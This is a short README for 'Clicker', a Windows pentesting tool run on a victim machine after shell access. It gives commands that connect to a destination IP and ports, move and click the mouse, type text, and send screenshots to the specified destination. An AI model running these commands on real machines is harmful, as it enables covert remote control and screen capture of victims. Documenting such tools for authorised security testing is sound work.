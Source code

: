 # Clicker
It's a pseudo remote GUI operation tool for Windows pentesting.  
You need shell access to use Clicker on the victim machine.

If you use ClickOperator, this command is needed
```
clicker.exe -b {dst IP address} {dst port for command} {dst port for data}
```

You can move mouse cursor and click (x and y are coordinates, left click=L, left double click=L2, right click=R)
```
clicker.exe -e {dst IP address} {dst port for data} "c:x,y,L"
```
Clicker get screen-shot and send it to specified destination.

Input text
```
clicker.exe -e {dst IP address} {port for data} "i:input this text !"
```
you can use KeyCode  
https://docs.microsoft.com/en-us/dotnet/api/system.windows.forms.sendkeys.send?view=net-5.0

